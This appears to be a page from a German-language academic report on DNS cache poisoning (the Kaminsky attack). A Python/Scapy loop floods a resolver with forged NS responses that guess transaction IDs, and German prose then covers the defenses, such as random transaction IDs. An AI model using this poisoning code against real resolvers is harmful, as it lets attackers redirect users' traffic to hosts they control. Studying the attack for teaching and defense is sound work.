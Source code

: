 \documentclass[10pt,a4paper]{article}
\begin{document}
\begin{center}
\begin{lstlisting}
counter = 0
while True:
    target_domain = "www" + str(counter) + target_domain_base
    counter = (counter + 1) % (2 ** 16)

    packet_list = [initial_request(target_domain, target_dns_ip, target_dns_port_in)]

    response_amount = 50
    r = random.randint(0, (2 ** 16) - response_amount + 1)
    for i in range(r, r + response_amount):
        packet_list.append(
            forged_ns_response(i, target_domain, target_dns_ip, attacker_dns_ip, 
            		known_ns_domain, known_ns_ip, target_dns_port_out))

    p_txid_match = (1 / (2 ** 16)) * response_amount * counter * 100
    print("Iteration: {}, possible cache poisoning: {:4.2f}%".format(counter, p_txid_match))
    print("Sending packets from {} with id in interval [{}, {}] to {}"
    	.format(known_ns_ip, r, r + response_amount, target_domain))

    sendpfast(packet_list, pps=100000, iface="eth1", verbose=0)

    dns_response = sr1(IP(dst=target_dns_ip) / UDP(dport=53) / DNS(rd=1, 
    	qd=DNSQR(qname=target_domain)), verbose=0)

    try:
        if dns_response[DNS].an.rdata == expected_ip:
            print("Successfully poisoned the zone of {}".format(target_domain_base))
            break
    except:
        print("Poisoning failed")
    break
\end{lstlisting}
\end{center}

\subsection{Versuchsreihen und Vorgehensweise}

\subsection{Schutz gegen den Angriff}
Das eigentliche Problem des Angriffslies sich nicht beheben ohne die Kompatibilität zum bisherigen DNS Protokoll zu verlieren, daher wurden weitere Zufallsquellen neben der bestehenden ID-Randomization eingerichtet.

\subsection*{Transaktionsnummer}
Die Transaktionsnummer ist eine 16 Bit lange Zahl die vom Ziel-Server beim erstellen der Anfrage generiert wurde. Sie muss bei der Antwort gleich lauten wie bei der Anfrage und Existierte bereits vor bekannt werden das Angriffs. Manche Implementierungen waren allerdings leicht angreifbar, da die ID nicht zufällig gewählt wurde, sondern einfach bei jeder Anfrage Inkrementiert wurde. War also die Transaktionsnummer einer vorherigen Anfrage bekannt schränkte dies die möglichen Transaktionsnummern erheblich ein. Dies wurde durch einen Pool von zufällig gewürfelten Transaktionsnummern behoben, von denen für die Anfrage zufällig eine ausgewählt wird.
\end{document}
